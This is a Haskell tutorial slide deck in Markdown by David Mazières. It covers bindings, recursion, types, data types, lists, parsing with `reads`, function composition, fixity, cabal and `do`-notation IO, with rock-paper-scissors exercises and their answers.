







% Intro to Haskell and LIO
% David Mazi&egrave;res
%

# Getting started with Haskell

* We assume you have [ghc][GHC] and [cabal][cabal-install] installed

* Create a file called `hello.hs` with the following contents:

    ~~~ {.haskell}
    main = putStrLn "Hello, world!"
    ~~~

* Compile your program to a native executable like this:

    ~~~
    $ ghc --make hello
    [1 of 1] Compiling Main             ( hello.hs, hello.o )
    Linking hello ...
    $ ./hello
    Hello, world!
    ~~~

* Or run it in the [GHCI interpreter][GHCI] like this:

    ~~~
    $ ghci hello.hs 
    GHCi, version 7.6.3: http://www.haskell.org/ghc/  :? for help
    ...
    Ok, modules loaded: Main.
    *Main> main
    Hello, world!
    *Main> 
    ~~~

# Bindings

* Haskell uses the `=` sign to declare *bindings*:

    ~~~ {.haskell}
    x = 2                   -- Two hyphens introduce a comment
    y = 3                   --    ...that continues to end of line.
    main = let z = x + y    -- let introduces local bindings
           in print z       -- program will print 5
    ~~~

    * Bound names cannot start with upper-case letters
    * Bindings are separated by "`;`", which is usually auto-inserted
      by a
      [layout](http://www.haskell.org/onlinereport/haskell2010/haskellch2.html#x7-210002.7)
      rule

* A binding may declare a *function* of one or more arguments
    * Function and arguments are separated by spaces (when defining or
      invoking them)

    ~~~ {.haskell}
    add arg1 arg2 = arg1 + arg2   -- defines function add
    five = add 2 3                -- invokes function add
    ~~~

* Parentheses can wrap compound expressions, must do so for arguments

    ~~~ {.haskell}
    bad = print add 2 3     -- error! (print should have only 1 argument)
    ~~~

    ~~~ {.haskell}
    main = print (add 2 3)  -- ok, calls print with 1 argument, 5
    ~~~

# Haskell is a *pure* functional language

* Unlike variables in imperative languages, Haskell bindings are
    * *immutable* - can only bind a symbol once in a give scope 
      (We still call bound symbols "variables" though)

    ~~~ {.haskell}
    x = 5
    x = 6                      -- error, cannot re-bind x
    ~~~

    * *order-independent* - order of bindings in source code does not
       matter
    * *lazy* - definitions of symbols are evaluated only when needed

    ~~~ {.haskell}
    safeDiv x y =
        let q = div x y        -- safe as q never evaluated if y == 0
        in if y == 0 then 0 else q
    main = print (safeDiv 1 0) -- prints 0
    ~~~

    * *recursive* - the bound symbol is in scope within its own
       definition

    ~~~ {.haskell}
    x = 5                 -- this x is not used in main

    main = let x = x + 1  -- introduces new x, defined in terms of itself
           in print x     -- program "diverges" (i.e., loops forever)
    ~~~

# How to program without mutable variables?

* In C, we use mutable variables to create loops:

	~~~ {.c}
	long factorial (int n)
	{
	  long result = 1;
	  while (n > 1)
	    result *= n--;
	  return result;
	}
	~~~

* In Haskell, can use recursion to "re-bind" argument symbols in new
  scope

	~~~ {.haskell}
	factorial n = if n > 1
	              then n * factorial (n-1)
	              else 1
	~~~

    * Recursion often fills a similar need to mutable variables
    * But the above Haskell factorial is inferior to the C one--why?

# Tail recursion

* Each recursive call may require a stack frame
    * This Haskell code requires `n` stack frames

        ~~~ {.haskell}
        factorial n = if n > 1 then n * factorial (n-1) else 1
        ~~~

    * By contrast, our C factorial ran in constant space
* Fortunately, Haskell supports optimized *tail recursion*
    * A function is tail recursive if it ends with a call to itself
    * Unfortunately, `factorial n` multiplies by `n` *after*
      evaluating `factorial (n-1)`
* Idea: use *accumulator* argument to make calls tail recursive

    ~~~ {.haskell}
    factorial n = let loop acc n' = if n' > 1
                                    then loop (acc * n') (n' - 1)
                                    else acc
                  in loop 1 n
    ~~~ 

    * Here `loop` is tail recursive, compiles to an actual loop

# Guards and `where` clauses

* *Guards* let you shorten function declarations:

    ~~~ {.haskell}
    factorial n = let loop acc n' | n' > 1 = loop (acc * n') (n' - 1)
                                  | otherwise = acc
                  in loop 1 n
    ~~~

    * "`|`" symbol introduces a guard
    * Guards are evaluated top to bottom; the first `True` guard wins
    * The system Prelude (standard library) defines `otherwise = True`

* Bindings can also end with `where` clauses--like inverted `let`

    ~~~ {.haskell}
    factorial n = loop 1 n
        where loop acc n' | n' > 1    = loop (acc * n') (n' - 1)
                          | otherwise = acc
    ~~~

    * Unlike `let`, a `where` clause scopes over multiple guarded
      definitions
    * This is convenient for binding variables to use in guards

# Tip: variable names

* Inner functions (e.g., `loop`) often have arguments related to
  outer function
    * It is legal to shadow bindings and re-use variable names, but
      the compiler will warn you
    * Typical practice is to add `'` (prime) to the inner-function's
      argument
    * Haskell accepts the `'` character in variables, except as first
      character
* Personally, I find this practice a bit error-prone
    * While learning Haskell, I repeatedly made the error of dropping
      primes, e.g.:

    ~~~ {.haskell}
    factorial n = loop 1 n
        where loop acc n' | n' > 1    = loop (acc * n) (n' - 1) -- bug
                          | otherwise = acc
    ~~~

    * You can avoid the problem by using the longer symbol name for
      the outer function

    ~~~ {.haskell}
    factorial n0 = loop 1 n0
        where loop acc n | n > 1     = loop (acc * n) (n - 1)
                         | otherwise = acc
    ~~~

    * Here accidentally typing "`factorial n0 = loop 1 n`" causes
      compile error

# Every expression and binding has a type

* Some basic types:
    * `Bool` - either `True` or `False`
    * `Char` - a unicode code point (i.e., a character)
    * `Int` - fixed-size integer
    * `Integer` - an arbitrary-size integer
    * `Double` - an IEEE double-precision floating-point number
    * *type1* `->` *type2* - a function from *type1* to *type2*
    * `(`*type1*`,` *type2*`,` ...`,` *typeN*`)` - a tuple
    * `()` - a zero-tuple, pronounced *unit* (kind of like `void` in
      C); there only one value of this type, also written `()`
* You can declare the type of a symbol or expression with `::`

    ~~~ {.haskell}
    x :: Integer
    x = (1 :: Integer) + (1 :: Integer) :: Integer
    ~~~

    * `::` has lower precedence than any function operators (including
      `+`)

# More on types

* Function application happens one argument at a time
  (a.k.a. "*currying*")

    ~~~ {.haskell}
    add :: Integer -> (Integer -> Integer)
    add arg1 arg2 = arg1 + arg2
    ~~~

    * So `add 2 3` is equivalent to `(add 2) 3`
    * `(add 2)` takes 3 returns 5, so `(add 2) has type Integer -> Integer`
    * `->` associates to the right, so parens usually omitted in
      multi-argument function types: 
      `fn ::` *argType1* `->` *argType2* `->` ... `->` *argTypeN* `->`
      *resultType*

* Usually the compiler can infer types
    * You can ask [GHCI][GHCI] to show you inferred types with `:t`

    ~~~
    *Main> :t add
    add :: Integer -> Integer -> Integer
    ~~~

    * Good practice to declare types of top-level bindings
      anyway (compiler warns if missing)

# User-defined data types

* The `data` keyword declares user-defined data types (like `struct`
  in C), E.g.:

    ~~~ {.haskell}
    data PointT = PointC Double Double deriving Show
    ~~~

    * Declares a new type, `PointT` with constructor
      `PointC` containing two `Double`s
    * `deriving Show` means you can print the type (helpful in GHCI)
    * Can also derive `Read`, `Eq`, `Ord`, `Enum`, `Bounded`

* Note that data types and constructors _must_ start with capital letters
* Types and constructors can use the same name (often do), E.g.:
    
    ~~~ {.haskell}
    data Point = Point Double Double deriving Show
    ~~~ 

* One type can have multiple constructors (like a tagged union):

    ~~~ {.haskell}
    data Point = Cartesian Double Double
               | Polar Double Double
                 deriving Show
    ~~~

    ~~~ {.haskell}
    data Color = Red | Green | Blue | Violet deriving (Show, Eq, Enum)
    ~~~

# Using data types

* Constructors act like functions producing values of their types

    ~~~ {.haskell}
    data Point = Point Double Double deriving Show
    myPoint :: Point
    myPoint = Point 1.0 1.0
    ~~~

    ~~~ {.haskell}
    data Color = Red | Green | Blue | Violet deriving (Show, Eq, Enum)
    myColor :: Color
    myColor = Red
    ~~~

* `case` statements & function bindings "de-construct" values with
  *patterns*

    ~~~ {.haskell}
    getX, getMaxCoord :: Point -> Double
    getX point = case point of
                   Point x y -> x
    getMaxCoord (Point x y) | x > y     = x
                            | otherwise = y
    ~~~

    ~~~ {.haskell}
    isRed :: Color -> Bool
    isRed Red = True        -- Only matches constructor Red
    isRed c   = False       -- Lower-case c just a variable
    ~~~

# Exercise:  Rock, Paper, Scissors referee

* Define a type `Move` representing a move in a rock paper scissors
  game

* Define a type `Outcome` representing the outcome of a rock paper
  scissors game (win, loss, or tie).

* Define a function `outcome :: Move -> Move -> Outcome`
    * The first move should be your own, the second your opponent's
    * Should tell you if you won, lost, or tied

~~~
GHCi, version 7.6.3: http://www.haskell.org/ghc/  :? for help
...
*Main> outcome Rock Paper
Lose
*Main> outcome Scissors Paper
Win
*Main> outcome Paper Paper
Tie
~~~

# Answer

~~~ {.haskell}
data Move = Rock | Paper | Scissors deriving (Eq, Read, Show, Enum, Bounded)

data Outcome = Lose | Tie | Win deriving (Show, Eq, Ord)

-- | @outcome our_move their_move@
outcome :: Move -> Move -> Outcome
outcome Rock Scissors        = Win
outcome Paper Rock           = Win
outcome Scissors Paper       = Win
outcome us them | us == them = Tie
                | otherwise  = Lose
~~~

# Parameterized types

* Types can have parameters sort of the way functions do
    * Type parameters start with lower-case letters
    * Some examples from the standard Prelude

    ~~~ {.haskell}
    data Maybe a = Just a
                 | Nothing
    ~~~

    ~~~ {.haskell}
    data Either a b = Left a
                    | Right b
    ~~~

* You can see these at work in GHCI:

    ~~~
    Prelude> :t Just True
    Just True :: Maybe Bool
    Prelude> :t Left True
    Left True :: Either Bool b   
    ~~~

* Notice the type of `Left True` contains a type variable, `b`
    * Expression `Left True` can be of type `Either Bool b` for any
      type `b`
    * This is an example of a feature called *parametric polymorphism*

# More deconstruction tips

* Special variable "`_`" can be bound but not used
    * Use it when you don't care about a value:

    ~~~ {.haskell}
    isJust :: Maybe a -> Bool      -- note parametric polymorphism
    isJust (Just _) = True
    isJust Nothing  = False
    ~~~

    ~~~ {.haskell}
    isRed Red = True
    isRed _   = False              -- we don't need the non-red value
    ~~~

    * Compiler warns if a bound variable not used; `_` avoids this

* You can deconstruct types and bind variables within guards, E.g.:

    ~~~ {.haskell}
    addMaybes mx my | Just x <- mx, Just y <- my = Just (x + y)
    addMaybes _ _                                = Nothing
    ~~~

    though often there is a simpler way
    
    ~~~ {.haskell}
    addMaybes (Just x) (Just y) = Just (x + y)
    addMaybes _ _               = Nothing
    ~~~

# Lists

* We could define homogeneous lists with the `data` keyword

    ~~~ {.haskell}
    data List a = Cons a (List a) | Nil

    oneTwoThree = (Cons 1 (Cons 2 (Cons 3 Nil))) :: List Integer
    ~~~

* But Haskell has built-in lists with syntactic sugar
    * Instead of `List Integer`, the type is written `[Integer]`
    * Instead of `Cons`, the constructor is called `:` and is *infix*
    * Instead of `Nil`, the empty list is called `[]`

    ~~~ {.haskell}
    oneTwoThree = 1:2:3:[] :: [Integer]
    ~~~

    * But there are even more convenient syntaxes for the same list:

    ~~~ {.haskell}
    oneTwoThree' = [1, 2, 3]    -- comma-separated elements within brackets
    oneTwoThree'' = [1..3]      -- define list by a range
    ~~~

* A `String` is just a list of `Char`, so `['a', 'b', 'c'] == "abc"`

# Parsing data types with `deriving Read` and `reads`

* We've been using "`deriving Show`" and `show` to print values
    * By default `show` show gives you a valid Haskell expression

	~~~
	*Main> show $ Point 1.0 1.0
	"Point 1.0 1.0"               <-- could paste string into your source
	~~~

* "`deriving Read`" lets you parse a value at run time

    ~~~ {.haskell}
    data Point = Point Double Double deriving (Show, Read)
    ~~~

    * Problem: Might be 0, 1, or (if ambiguous) more possible parsings
    * Function `reads` parses and returns `[(value, string_with_rest_of_input)]`

    ~~~
    *Main> reads "invalid Point 1 2" :: [(Point, String)]
    []
    *Main> reads "Point 1 2" :: [(Point, String)]
    [(Point 1.0 2.0,"")]
    *Main> reads "Point 1 2 and some extra stuff" :: [(Point, String)]
    [(Point 1.0 2.0," and some extra stuff")]
    *Main> reads "(Point 1 2)" :: [(Point, String)] -- note parens OK
    [(Point 1.0 2.0,"")]
    ~~~

# Some basic list functions in Prelude

~~~ {.haskell}
head :: [a] -> a
head (x:_) = x
head []    = error "head: empty list"
~~~

~~~ {.haskell}
tail :: [a] -> a             -- all but first element
tail (_:xs) = xs
tail []     = error "tail: empty list"
~~~

~~~ {.haskell}
a ++ b :: [a] -> [a] -> [a]  -- infix operator concatenate lists
[] ++ ys = ys
(x:xs) ++ ys = x : xs ++ ys
~~~

~~~ {.haskell}
length :: [a] -> Int         -- This code is from language spec
length []    =  0            -- GHC implements differently, why?
length (_:l) =  1 + length l
~~~

~~~ {.haskell}
filter :: (a -> Bool) -> [a] -> [a]
filter pred [] = []
filter pred (x:xs)
  | pred x     = x : filter pred xs
  | otherwise  = filter pred xs
~~~

Note function `error :: String -> a` reports assertion failures

# Exercise: Using `reads`

* Write a function to parse moves:

    ~~~ {.haskell}
    parseMove :: String -> Maybe Move
    ~~~

    * Return `Just` move on successful parse, `Nothing` otherwise
    * Can optionally accept whitespace or parentheses if easier
    * But should reject a string with any trailing content after move

* Examples of use:

~~~ {.haskell}
*Main> parseMove "Rock"
Just Rock
*Main> parseMove "Paper"
Just Paper
*Main> parseMove "Scissors plus extra junk"
Nothing
~~~

# Possible solutions

* Use `reads`:

    ~~~ {.haskell}
    parseMove :: String -> Maybe Move
    parseMove str = case reads str of [(m, "")] -> Just m
                                      _         -> Nothing
    ~~~

    * `reads` return type implicitly constrained by `parseMove`'s type
      declaration

    * Removing `parseMove`'s type would make calling it difficult

* Directly match keywords:

    ~~~ {.haskell}
    parseMove :: String -> Maybe Move
    parseMove "Rock"     = Just Rock
    parseMove "Paper"    = Just Paper
    parseMove "Scissors" = Just Scissors
    parseMove _          = Nothing
    ~~~

    * Note how strings are constructors---you can pattern match on
      them

    * But this solution too finicky--won't except trailing carriage
      returns or spaces.  If you did this change to using reads.

# Being more permissive of line disciplines

* Let's tolerate trailing whitespace
    * Change your definition to:

    ~~~~ {.haskell}
    parseMove :: String -> Maybe Move
    parseMove str = case reads str of
      [(m, rest)] | ok rest -> Just m
      _                     -> Nothing
      where ok = all (`elem` " \r\n")
    ~~~~

    * Should now behave like this

    ~~~~
    *Main> parseMove "Rock  \r\n"
    Just Rock
    *Main> parseMove "Rock  \r\njunk"
    Nothing
    ~~~~

# Hoogle

* Let's find the source code for GHC's `length` function?
* [Hoogle] is a search engine just for Haskell functions
    * Go to <http://www.haskell.org/hoogle/>
    * Click on *search plugin*
    * Keyword "`haskell.org`" is too long for me--I change to "`ho`"

* Let's search for length... click on source
    * All those `#` marks are for "unboxed types", which are faster
      but not asymptotically
    * The important point is that `len` is tail recursive

* I use Hoogle all the time, all the time when coding
    * Most of the source code is not hard to understand
    * Length may be a bad starter example just because of unboxed
      types
    * Try examining the code of the functions you are using to
      understand them better

# Example: counting letters

* Here's a function to count lower-case letters in a `String`

    ~~~ {.haskell}
    import Data.Char    -- brings function isLower into scope

    countLowerCase :: String -> Int
    countLowerCase str = length (filter isLower str)
    ~~~

* If we fix `length`, `countLowerCase` might run in constant space
    * Recall Haskell evaluates expressions lazily...  Means in most
      contexts values are interchangeable with function pointers
      (a.k.a. *thunks*)

    * A `String` is a `[Char]`, which is type with two values, a
      *head* and *tail*

    * But until each of the *head* or *tail* are needed, they can be
      stored as function pointers

    * So `length` will causes `filter` to produce `Char`s one at a time

    * `length` does not hold on to characters once counted; 
      can be garbage-collected at will

# Function composition
    
* Here's an even more concise definition

    ~~~ {.haskell}
    countLowerCase :: String -> Int
    countLowerCase = length . filter isLower
    ~~~

* The "`.`" operator provides function composition

    ~~~ {.haskell}
    (f . g) x = f (g x)
    ~~~

    * On previous slide, `countLowerCase`'s argument had name `str`
    * The new version doesn't name the argument, a style called
      *point-free*

* Function composition can be used almost like Unix pipelines

    ~~~ {.haskell}
    process = countLowercase . toPigLatin . extractComments . unCompress
    ~~~

* Exercise: Write the type of "`.`" without typing `:t (.)` into ghci

# Lambda abstraction

* Sometimes you want to name the arguments but not the function
* Haskell allows anonymous functions through *lambda abstraction*
    * The notation is `\`*variable(s)* `->` *body* (where `\` is
      pronounced "lambda")

* Example:

    ~~~ {.haskell}
    countLowercaseAndDigits :: String -> Int
    countLowercaseAndDigits = length . filter (\c -> isLower c || isDigit c)
    ~~~

* Lambda abstractions can deconstruct values with patterns, e.g.:

    ~~~ {.haskell}
            ... (\(Right x) -> x) ...
    ~~~

    * But note that guards or multiple bindings are not allowed
    * Patterns must have the right constructor or will get run-time error

# Infix vs. Prefix notation

* We've seen some infix functions & constructors: `+`, `*`, `/`, `.`, `||`,
  `:`
* In fact, any binary function or constructor can be used infix or
  prefix
* For functions and constructors composed of letters, digits, `_`, and
  `'`
    * Prefix is the default: `add 1 2`
    * Putting function in backticks makes it infix: `` 1 `add` 2 ``
* For functions starting with one of `!#$%&*+./<=>?@\^|-~` or
  constructors starting "`:`"
    * Infix is default, Putting functions in parens makes them prefix,
     e.g., `(+) 1 2`
* For tuples, prefix constructors are `(,)`, `(,,)`, `(,,,)`, `(,,,,)`, etc.
* Infix functions can be partially applied in a parenthesized
  *section*

    ~~~ {.haskell}
    stripPunctuation :: String -> String
    stripPunctuation = filter (`notElem` "!#$%&*+./<=>?@\\^|-~:")
    -- Note above string the SECOND argument to notElem ^
    ~~~

# Exercise:  Point free notation and infix functions

* Consider the following function

    ~~~ {.haskell}
    oo :: (c -> d) -> (a -> b -> c) -> a -> b -> d
    oo f g a b = f (g a b)
    ~~~

    * It's like composition '(.)' but feeds _two_ arguments to g

* Implement 'oo' using point-free notation (not naming `a`, `b`, `f`,
  `g`):

    ~~~ {.haskell}
    oo :: (c -> d) -> (a -> b -> c) -> a -> b -> d
    oo = ???
    ~~~

    * Hint 1: eliminate one arg at a time (define `oo f g a = ...`,
      then `oo f g = ...`)
    * Hint 2: Remember "`f . g`" is the same as "`(.) f g`"  
      (The answer may be easier to see when staring at prefix
      notation)

# Answer

~~~ {.haskell}
oo :: (c -> d) -> (a -> b -> c) -> a -> b -> d
oo = (.) . (.)
oo = (.) (.) (.) -- equivalent
~~~

* Can get there step-by-step using the following tricks:
    * Whenever definition ends in function application, can use "`.`":  
      `oo` _xxx_ `t =` _yyy_ `(h t)` \ \ \ &#x27f6; \ \ \ `oo` _xxx_ `=` _yyy_ `. h`
    * Whenever function and definition end with same argument, chop:  
      `oo` _xxx_ `t =` _yyy_ `t` \ \ \ &#x27f6; \ \ \ `oo` _xxx_ `=` _yyy_
    * Rewrite infix "`.`" to prefix "`(.)`"

~~~ {.haskell}
oo f g a b = f (g a b)
oo f g a = f . (g a)
oo f g a = (.) f (g a)
oo f g = (.) f . g
oo f g = (.) ((.) f) g
oo f = (.) ((.) f)
oo = (.) . (.)
~~~

# Fixity

* Most operators are just library functions in Haskell
    * Very few operators reserved by language syntax (`..`, `:`, `::`,
      `=`, `\`, `|`, `<-`, `->`, `@`, `~`, `=>`, `--`)
    * You can go crazy and define your own operators
    * Or even use your own definitions instead of system ones
* Define precedence of infix operators with fixity declarations
    * Keywords: `infixl`/`infixr`/`infix` for left/right/no
      associativity
    * Syntax: *infix-keyword* [0-9] *function* [, *function* ...]
    * Allowed wherever a type declaration is allowed
* 0 is lowest allowed fixity precedence, 9 is highest
    * Prefix function application has fixity 10--higher than any infix
      call
    * Lambda abstractions, `else` clauses, and `let`...`in` clauses
      extend as far to the right as possible (meaning they never stop
      at any infix operator, no matter how low precedence)

# Fixity of specific operators

* Here is the fixity of the
  [standard operators](http://www.haskell.org/onlinereport/haskell2010/haskellch4.html#x10-820061):

~~~ {.haskell}
infixl 9  !!             -- This is the default when fixity unspecified
infixr 9  .
infixr 8  ^, ^^, ⋆⋆
infixl 7  ⋆, /, `quot`, `rem`, `div`, `mod`  
infixl 6  +, -           -- Unary negation "-" has this fixity, too
infixr 5  ++             -- built-in ":" constructor has this fixity, too
infix  4  ==, /=, <, <=, >=, >, `elem`, `notElem`
infixr 3  &&
infixr 2  ||
infixl 1  >>, >>=
infixr 1  =<<  
infixr 0  $, $!, `seq`
~~~

* If you can't remember, use `:i` in [GHCI][GHCI]:

    ~~~
    Prelude> :i &&
    (&&) :: Bool -> Bool -> Bool    -- Defined in GHC.Classes
    infixr 3 &&
    ~~~

    * If GHCI doesn't specify, means default: `infixl 9`

# The "`infixr 0`" operators

* `$` is function application, but
  with lowest precedence

    ~~~~ {.haskell}
    ($) :: (a -> b) -> a -> b
    f $ x = f x
    ~~~~

    * Turns out to be quite useful for avoiding parentheses, E.g.:

    ~~~~ {.haskell}
        putStrLn $ "the value of " ++ key ++ " is " ++ show value
    ~~~~

* `seq :: a -> b -> b` evaluates
  first argument, and second
    * Means when you are done, first argument is a value, not a thunk

    ~~~~ {.haskell}
    main = let q = 1 `div` 0
           in seq q $ putStrLn "Hello world!\n"  -- exception
    ~~~~

    * `seq` has to be built into the compiler

* `$!` combines `$` and `seq`

    ~~~~ {.haskell}
    f $! x  = x `seq` f x
    ~~~~

# Accumulators revisited

* We used an accumulator to avoid `n0` stack frames in `factorial`:

~~~ {.haskell}
factorial n0 = loop 1 n0
    where loop acc n | n > 1     = loop (acc * n) (n - 1)
                     | otherwise = acc
~~~

* Unfortunately, `acc` can contain a chain of thunks `n` long 
    * `(((1 * n) * (n - 1)) * (n - 2) ...)` -- Laziness means only
      evaluated when needed
    * GHC is smart enough not to build up thunks, but only when
      optimizing

* Can fix such problems using `$!` or `seq`

~~~ {.haskell}
factorial n0 = loop 1 n0
    where loop acc n | n > 1     = (loop $! acc * n) (n - 1)
                     | otherwise = acc
~~~

~~~ {.haskell}
factorial n0 = loop 1 n0
    where loop acc n | n > 1     = acc `seq` loop (acc * n) (n - 1)
                     | otherwise = acc
~~~

# Hackage and cabal

* [Hackage](http://hackage.haskell.org/packages/archive/pkg-list.html)
  is a large collection of Haskell packages
* [Cabal](http://www.haskell.org/ghc/docs/7.0-latest/html/Cabal/index.html)
  is a tool for browsing hackage and installing packages
    * Cabal comes with the [haskell platform][Platform]
    * Run `cabal update` to create `$HOME/.cabal`, download package database
    * I highly recommend unconmenting and editing these two lines in
      `$HOME/.cabal/config`

        ~~~
	documentation: True
	library-profiling: True
        ~~~

    * May want to add `$HOME/.cabal/bin` to your path
* To install packages for today, run

    ~~~
    cabal install --hyperlink-source lio
    ~~~

    * Installs packages in `$HOME/.cabal`, and records them in
      `$HOME/.ghc`
    * To start fresh, must delete both `$HOME/.cabal` and `$HOME/.ghc`

<!--
    ~~~
    cabal install http-enumerator utf8-string tagsoup
    ~~~
-->

# Modules and `import` syntax

* Haskell groups top-level bindings into *modules*
    * Default module name is `Main`, as programs start at function
      `main` in `Main`
    * Except for `Main`, a module named *M* must reside in a file
      named *M*`.hs`
    * Module names are capitalized; I use lower-case file names
      for `Main` modules
* Let's add this to the top of our source file

    ~~~~ {.haskell}
    module Main where      -- redundant since Main is the default
    import Control.Concurrent
    import Network
    import System.IO
    ~~~~

    * Start module with "`module` *name* `where`" or "`module` *name*
      `(`*exported-symbol*[`,` ...]`) where`"
      (non-exported symbols provide modularity)
    * `import` *module* - imports all symbols in *module*
    * `import qualified` *module* `as` *ID* - prefixes imported symbols
      with *ID*`.`
    * `import` *module* `(`*function1*[`,` *function2* ...]`)` -
      imports just the named functions
    * `import` *module* `hiding (`*function1*[`,` *function2* ...]`)` -
      imports all but the named functions

# `do` notation

* Let's write a function to greet someone

* Type the following into a file `greet.hs`:

~~~ {.haskell}
greet h = do
  hPutStrLn h "What is your name?"
  name <- hGetLine h
  hPutStrLn h $ "Hi, " ++ name

withTty = withFile "/dev/tty" ReadWriteMode

main = withTty greet
~~~

* Now try running `main` in GHCI

<!--
* Can the code like this in GHCI

~~~
*Main> main
What is your name?
David
Hi, David
~~~

* Or from the command line:

~~~
$ runghc ./greet.hs
~~~
-->

# `do` notation

~~~ {.haskell}
greet h = do
  hPutStrLn h "What is your name?"
  name <- hGetLine h
  hPutStrLn h $ "Hi, " ++ name
~~~

* Greeting task requires some impure (non-functional) actions
    * Reading and writing a file handle
* A `do` block lets you sequence IO actions.  In a `do` block:
    * *pat* `<-` *action* - binds
      *pat* (variable or constructor pattern) to result of executing
      *action*
    * `let` *pat* `=` *pure-value* -
    binds *pat* to *pure-value* (no "`in` ..." required)
    * *action* - executes *action* and
      discards the result, or returns it if at end of block
* GHCI input is like `do` block (i.e., can use `<-`, need `let` for
  bindings)
* `do`/`let`/`case` won't parse after prefix function (so say
  "`func $ do` ...")

# What are the types of IO actions?

~~~~ {.haskell}
main :: IO ()
greet :: Handle -> IO ()
hPutStrLn :: Handle -> String -> IO ()
hGetLine :: Handle -> IO String
~~~~

* `IO` is a parameterized type (just as `Maybe` is parameterized)
    * "`IO String`" means IO action that produces a
      `String` if executed
    * Unlike `Maybe`, we won't use a constructor for `IO`, which is
      somewhat magic
* What if we try to copy a line of input as follows?

    ~~~~ {.haskell}
    main = hPutStrLn stdout (hGetLine stdin)
    ~~~~

    * Oops, `hPutStrLn` expects type `String`, while `hGetLine`
      returns an `IO String`

